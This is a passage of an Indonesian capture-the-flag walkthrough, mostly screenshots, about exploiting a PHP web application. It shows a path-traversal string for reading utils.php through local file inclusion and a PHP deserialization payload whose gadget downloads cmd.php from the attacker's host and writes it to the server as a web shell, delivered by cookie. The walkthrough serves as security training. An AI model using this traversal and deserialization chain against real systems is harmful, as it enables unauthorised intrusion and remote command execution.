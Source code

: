 Kita akan menggunakan kode yang ditemukan di include/utils.php untuk menghasilkan kode aktivasi untuk pengguna yang kita buat sebelumnya. Sekarang saatnya mengaktifkan akun, menggunakan tanggal waktu yang didapat response
![image](https://media.discordapp.net/attachments/740245586095112242/1067695158411407360/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1067695178158198835/image.png)

Selanjutnya kita membuat code php dengan mengambil source code yang didapat dari ``/utils.php``
![image](https://media.discordapp.net/attachments/740245586095112242/1067695390801002516/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1067695482241032192/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1067695490021466142/image.png)

Berikutnya kita menginputkan code aktivasi pada directory ``/activate.php`` dan menambahkan parameter ``code=``
![image](https://media.discordapp.net/attachments/740245586095112242/1067695740681453619/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1067695772566564864/image.png)

Selanjutnya kita membaca file ``utils.php`` yang didapat dari kerentanan LFI
```
../../../../../var/www/html/includes/utils.php
```
![image](https://media.discordapp.net/attachments/740245586095112242/1067696147268915202/image.png)

Disini kita membuat payload yang nanti bisa mengupload file dengan cookie 
```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.7:1111/cmd.php";
    public $imgPath = "./cmd.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = base64_encode(serialize(new AvatarInterface));
echo $payload;
?>
```
![image](https://media.discordapp.net/attachments/740245586095112242/1067696377859158026/image.png)

